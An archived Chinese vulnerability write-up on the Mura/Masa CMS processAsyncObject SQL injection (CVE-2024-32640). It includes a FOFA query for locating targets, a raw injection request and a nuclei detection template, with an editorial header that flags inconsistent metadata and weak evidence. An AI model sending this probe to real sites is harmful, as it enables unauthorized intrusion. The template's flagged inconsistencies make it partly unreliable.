

# CVE-2024-32640漏洞复现

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Mura CMS/Masa CMS
- 文献类型：SQL注入疑似探测模板
- 版本、权限及部署边界：匿名processAsyncObject；正文影响版本不详，修复写7.4.6/7.3.13/7.2.8但未区分两个项目分支
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. Mura与Masa分叉产品必须各给适用版本，不能直接共享修复版本；正文不详与固定修复列表缺映射
2. 500+Unhandled Exception+CFID/CFTOKEN仅证明异常，不足证明SQL注入，需要数据库错误/对照证据
3. 模板max-request3实际1、tags cve2022与2024矛盾，产品指纹Masa不能覆盖所有Mura
4. 有ProjectDiscovery原始研究链接，建议以其补齐匿名可达及真正根因；没有复现响应截图/正文

### 操作风险

模板max-request3实际1、tags cve2022与2024矛盾，产品指纹Masa不能覆盖所有Mura

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://blog.projectdiscovery.io/mura-masa-cms-pre-auth-sql-injection/>
- 原文参考链接（未重新核验）：<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32640>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 fgz  AI与网安   2024-05-25 08:30  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
Mura-CMS-processAsyncObject存在SQL注入漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
Mura CMS版本不详  
  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
Mura CMS 是一个功能全面、灵活且用户友好的内容管理系统。2024年5月8日，互联网上披露其存在CVE-2024-32640 Mura CMS processAsyncObject SQL注入漏洞，攻击者可构造恶意请求获取数据库中的敏感信息。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
"Generator: Masa CMS"
```  
  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
POC数据包  
```
POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

object=displayregion&contenthistid=x\'&previewid=1
```  
  
  
  
  
  
06  
  
—  
  
nuclei poc  
  
  
poc文件内容如下  
```
id: CVE-2024-32640

info:
  name: Mura/Masa CMS - SQL Injection
  author: iamnoooob,rootxharsh,pdresearch
  severity: critical
  description: |
    The Mura/Masa CMS is vulnerable to SQL Injection.
  reference:
    - https://blog.projectdiscovery.io/mura-masa-cms-pre-auth-sql-injection/
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-32640
  impact: |
    Successful exploitation could lead to unauthorized access to sensitive data.
  remediation: |
    Apply the vendor-supplied patch or update to a secure version.
  metadata:
    verified: true
    max-request: 3
    vendor: masacms
    product: masacms
    shodan-query: 'Generator: Masa CMS'
  tags: cve,cve2022,sqli,cms,masa,masacms

http:
  - raw:
      - |
        POST /index.cfm/_api/json/v1/default/?method=processAsyncObject HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        object=displayregion&contenthistid=x\'&previewid=1

    matchers:
      - type: dsl
        dsl:
          - 'status_code == 500'
          - 'contains(header, "application/json")'
          - 'contains_all(body, "Unhandled Exception")'
          - 'contains_all(header,"cfid","cftoken")'
        condition: and
```  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到  
 7.4.6、7.3.13 、7.2.8版本。  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
